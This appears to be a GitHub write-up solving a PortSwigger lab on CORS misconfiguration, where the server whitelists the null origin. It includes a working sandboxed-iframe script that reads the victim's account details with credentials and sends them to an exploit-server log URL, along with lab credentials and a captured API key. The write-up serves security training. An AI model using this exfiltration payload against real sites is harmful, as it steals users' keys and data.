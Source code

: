 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/e7f68cc4-cdff-4d31-8099-22d989e5d970)

## Solution :

### Whitelisted null origin value -

The specification for the Origin header supports the value null. Browsers might send the value null in the Origin header in various unusual situations:

Some applications might whitelist the null origin to support local development of the application. For example, suppose an application receives the following cross-origin request:
```
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```
And the server responds with:
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```
In this situation, an attacker can use various tricks to generate a cross-origin request containing the value null in the Origin header. This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using a sandboxed iframe cross-origin request of the form:

Login to the website using credentials - wiener:peter.

Once logged in, we can see the API key of wiener.

The GET request to /accountDetails contains `Access-Control-Allow-Credentials` in the response.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/2d374179-95de-4ad6-ac5d-51e4b47ec62c)

 >> Note that there is no Access-Control-Allow-Origin header in response because the Origin header is not specified in the request.

If we give Origin: evil.com in request, we can see that in the response it does not contain any Access-Control-Allow-Origin: evil.com header. Which means evil.com is not in the whitelisted domains.

What happens if we try to give Origin: null in request?

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/173a5808-8da9-4342-b4df-58a564d9b24a)

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0aa200b9032f228683c914b300e500fa.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://exploit-0abe007c03e8220c831213c201dd0061.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```


This time we have the Access-Control-Allow-Origin: null header in the response. This means null is in the whitelisted domains.

Some applications might whitelist the null origin to support local development of the application.

So by this we can bypass CORS & retreive the API key of administrator.

Embedding script in iframe -

Scripts that originate from an iframe usually contains Origin: null.

So we need to embed our exploit script inside an iframe.

Script -

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/54f8ab44-26ba-48ca-8f16-73344af12723)

Api Key - `hKdWHbB4UkoFKrwK9Dl4LDyVaglVknmC`

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/6ef3f0c7-b698-428b-a7d5-827847f29b22)

Go and submit solution to solve the lab.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/48a42c4b-8596-4c70-b484-0066e53aae0e)

